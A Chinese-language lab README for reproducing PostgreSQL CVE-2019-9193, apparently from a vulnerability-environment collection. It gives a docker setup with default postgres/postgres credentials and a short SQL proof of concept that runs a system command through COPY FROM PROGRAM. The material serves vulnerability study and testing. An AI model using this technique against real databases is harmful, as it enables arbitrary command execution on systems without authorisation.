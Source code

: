 # PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 漏洞环境

启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

## 漏洞复现

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![](1.png)